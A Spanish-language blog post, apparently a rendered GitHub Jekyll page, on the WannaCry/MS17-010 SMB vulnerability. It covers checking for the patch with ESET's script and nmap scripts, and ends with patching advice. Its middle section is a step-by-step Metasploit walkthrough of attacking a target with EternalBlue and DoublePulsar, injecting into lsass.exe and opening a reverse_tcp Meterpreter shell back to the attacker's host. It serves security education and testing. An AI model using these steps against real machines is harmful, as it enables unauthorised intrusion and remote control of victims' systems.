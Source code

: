 ```yaml
---
layout: post
title: "Parche contra el exploit de WannaCry y atacando con EternalBlue el exploit que uso WannaCry"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

El vector de propagación del malware WANNACRY se vale de una vulnerabilidad en SMB, desde el 14 de marzo, Microsoft resolvió el problema 
a través del parche de seguridad MS17-010, para todas las versiones de Windows.

Empecemos por verificar si nuestro sistema está parcheado contra este exploit llamado EternalBlue, ten en cuenta que se vienen más 
ataques aprovechándose de esta vulnerabilidad.

Para eso descargamos el siguiente script que revisa los archivos de actualización en el sistema y busca aquellos correspondientes al 
parche de EternalBlue.
[Puedes descargar estes script desde este enlace](https://github.com/eset-la/Check-EternalBlue).
{% include image.html url="http://bit.ly/2pYjhUr" %}
{% include image.html url="http://bit.ly/2rj86tq" %}

2 Como segunda opción podemos usar el script NSE de Nmap para detectar equipos Windows vulnerables a la ejecución de código remoto ms17-010 
que el pasado domingo publicó nuestro buen amigo Calderpwn.
```
https://github.com/cldrn/nmap-nse-scripts/blob/master/scripts/smb-vuln-ms17-010.nse
```
Modo de uso:

-Para verificar que un equipo está parchado o no:

`$ nmap -p445 --script smb-vuln-ms17-010 <objetivo>`

-Para verificar que no tenga el implante DOUBLE PULSAR:

`$ nmap -p445 --script smb-double-pulsar-backdoor <objetivo>`

### EXPLOTANDO MS17-010

EternalBlue es el nombre del exploit que le permite a WannaCrypt autoreplicarse y propagarse rápidamente por la red infectada. 
Al parecer, fue desarrollado por la NSA y pertenece a la lista de archivos filtrados por el grupo Shadow Brokers.

ETERNALBLUE es el único que puede ser usado para atacar Windows 7 y Windows Server 2008 sin necesidad de autenticación. Luego, podemos 
utilizar DOUBLEPULSAR para inyectar remotamente una DLL maliciosa en el equipo previamente atacado con ETERNALBLUE. Teniendo en cuenta que podemos inyectar la DLL que queramos, crearemos mediante Empire, una DLL maliciosa que realice una conexión inversa desde el equipo víctima hacia el equipo atacante.

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
{% include image.html url="http://bit.ly/2rwjAXA" %}

Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2pQqYQy" %}

Copiamos el modulo (eternalblue_doublepusar.rb)  a metasploit,en la carpeta donde se encuentran los exploits para SMB de Windows.
{% include image.html url="http://bit.ly/2qXpGTZ" %}

Abrimos Metasploit, seleccionaremos el exploit que acabamos de añadir 

`use exploits/windows/smb/eternalblue_doublepulsar`  
Con show options nos mostrara los parámetros que le debemos de configurar:
{% include image.html url="http://bit.ly/2q1b6pE" %}

En los parámetros `DOUBLEPULSARPATH y ETERNALBLUEPATH` ponemos el directorio donde se encuentra la carpeta “deps” que hemos descargado previamente.

En `PROCESSINJECT` recibe el nombre del proceso donde va a ser inyectado en la máquina target el payload, si nuestro target es de x64 cambiamos el proceso wlms.exe a lsass.exe. Si el target es un x86, debemos dejarlo en wlms.exe.

En `RHOST` ponemos la IP de la máquina a atacar.

En `WINEPATH` ponemos el directorio donde se encuentra el “drive_c” de WINE.
{% include image.html url="http://bit.ly/2rwmfAD" %}


Ponemos el payload que vamos a utilizar:

`set payload windows/x64/meterpreter/reverse_tcp`
{% include image.html url="http://bit.ly/2pQaXd7" %}
Configuramos el payload con:
set `LHOST` ip del atacante
El puerto lo dejaremos por default en el 4444

Por ultimo lanzamos con exploit 
{% include image.html url="http://bit.ly/2qBOo9a" %}
Como verán ya hemos accedido al sistema Windows, solo requerimos la dirección IP de la víctima y nos devolverá una sesión de meterpreter.

### Recomendaciones

Si tu equipo es vulnerable [simplemente instala el parche](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx).
{% include image.html url="http://bit.ly/2p5wDSj" %}

1.- Click en Windows Update

2.- Instalar actualizaciones 

3.-Antivirus actualizado

4.-No abrir archivos adjuntos en correos que no identifican! 

By Torres Happy Hacking
